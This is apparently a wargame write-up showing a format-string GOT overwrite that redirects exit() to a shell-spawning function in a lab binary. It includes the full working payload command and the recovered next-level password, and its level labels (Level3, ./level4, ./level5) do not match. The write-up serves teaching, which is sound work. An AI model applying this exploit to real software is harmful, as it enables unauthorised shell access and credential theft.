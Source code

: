 # Level3

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level4
  teststring
  teststring
```

> It looks like this is similar to the previous level...

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). At first glance it appears that a **buffer overflow** won't be possible here since the program uses [`fgets()`](https://linux.die.net/man/3/fgets) and reads up to **512** bytes while the buffer is **520** bytes long.

After some deeper analysis, we find that there is a built-in way to spawn a shell within this program but the function were this logic happens is never called. Since the program don't return to the main at the end of execution but calls for `exit()`, we could use what's called a [GOT overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.


The process is as follows:

- Get the address of `exit()` in the Global Offset Table.
- Get the address of the function we want to run, `o()` in our case.
- Find the stack argument representing the format string.
- Overwrite the call to `exit()` by the address of `o()`.

Thanks to our `gdb` analysis we get:

- `exit()` function: `0x08049838`.
- `o()` function: `0x080484a4`.

Since these two addresses share the same two high order bytes we can take a shortcut here. We can update only the low order bytes so that `o()` would be executed making the **format string** a bit shorter and more readable.

Like before let's, first, identify which positional argument is our input.

```shell
  $> python -c 'print "AAAA" + " %p" * 8' | ./level5
  AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
```

> This time our input is the 4th stack argument.

Now that we know the format string position in the stack all we have to do is to create a **33956** character long string containing the address of `exit()` to match the lower order bytes from `o()` address and output its low order bytes using `%hn`.

```shell
  $> (python -c 'print "\x08\x04\x98\x38"[::-1] + "%33952c%4$hn"'; cat) | ./level5    
  ...
  cat /home/user/level6/.pass 
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

> We, first, write the address of `exit()`, which is already **4** bytes, so using `%33952c` will add **33952** spaces as padding resulting in a **33956** character long string. Then all we have to do is output the number of character printed until this point using `%hn` into the 4th positional stack argument low order bytes we want to change using `%4$`.

So next user credentials pair is `level6:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`.

Check [here](./source.c) for reproduction source-code of this binary.